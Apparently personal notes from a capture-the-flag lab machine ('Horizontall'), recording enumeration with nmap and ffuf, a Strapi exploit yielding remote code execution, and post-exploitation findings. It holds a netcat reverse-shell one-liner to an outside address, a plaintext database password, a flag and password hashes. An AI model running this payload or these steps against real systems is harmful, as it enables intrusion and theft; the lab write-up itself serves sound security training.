 start with nmap.

80
22

***

http

http://horizontall.htb/ --> ffuf with diferent list, nothing foudn(does not fuff with extention)


in view-source:http://horizontall.htb/js/app.c68eb462.js found url 
http://api-prod.horizontall.htb/

ffuf : 

admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
Admin                   [Status: 200, Size: 854, Words: 98, Lines: 17]
ADMIN                   [Status: 200, Size: 854, Words: 98, Lines: 17]
favicon.ico             [Status: 200, Size: 1150, Words: 4, Lines: 1]
index.html              [Status: 200, Size: 413, Words: 76, Lines: 20]
reviews                 [Status: 200, Size: 507, Words: 21, Lines: 1]
robots.txt              [Status: 200, Size: 121, Words: 19, Lines: 4]
users                   [Status: 403, Size: 60, Words: 1, Lines: 1]

used exploit 50239.py on subdomain. got rce with below payload.(used lot of , this worked)

mkfifo /tmp/lol;nc 10.10.14.114 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol

get shell as strapi

user found on box : developer 

user.txt : 441607bd8759af02e07677f582a6e9bf


tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1820/node /usr/bin/                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                                     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -     

we can upload php shell on box. and 1337 is open for developement purpose.

check if mongo db is present on server . try to login

mysql ver 14.14

/etc/apache2/sites-available/000-default.conf 

```
══╣ Possible private SSH keys were found!
/opt/strapi/myapi/node_modules/spdy/test/fixtures.js
/opt/strapi/myapi/node_modules/selfsigned/README.md
/opt/strapi/myapi/node_modules/nodemailer-fetch/test/fetch-test.js
/opt/strapi/myapi/node_modules/public-encrypt/test/rsa.1024.priv
/opt/strapi/myapi/node_modules/public-encrypt/test/test_key.pem
/opt/strapi/myapi/node_modules/public-encrypt/test/rsa.pass.priv
/opt/strapi/myapi/node_modules/public-encrypt/test/pass.1024.priv
/opt/strapi/myapi/node_modules/public-encrypt/test/rsa.2028.priv
/opt/strapi/myapi/node_modules/public-encrypt/test/ec.priv
/opt/strapi/myapi/node_modules/public-encrypt/test/test_rsa_privkey_encrypted.pem
/opt/strapi/myapi/node_modules/public-encrypt/test/test_rsa_privkey.pem
/opt/strapi/myapi/node_modules/public-encrypt/test/ec.pass.priv
/opt/strapi/myapi/node_modules/request/node_modules/http-signature/http_signing.md
/opt/strapi/myapi/node_modules/http-signature/http_signing.md


```


/usr/share/openssh/sshd_config


```
https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-shell-sessions
tmux 2.6


```

```
-rw-rw-r-- 1 strapi strapi 351 May 26  2021 /opt/strapi/myapi/config/environments/development/database.json
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi", 
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}


```


hash found:

```
864892F451E37073B4B4F3CE01C26A02C3EFE03B
$2a$10$cZaQFW/NiT3MBsBlI74ddOMW.jAwkQ7oiJnddpNY35I4hsA7vb2c.
FFE7D25121423869EB3DCC48D3E8C99C6E3530A7

```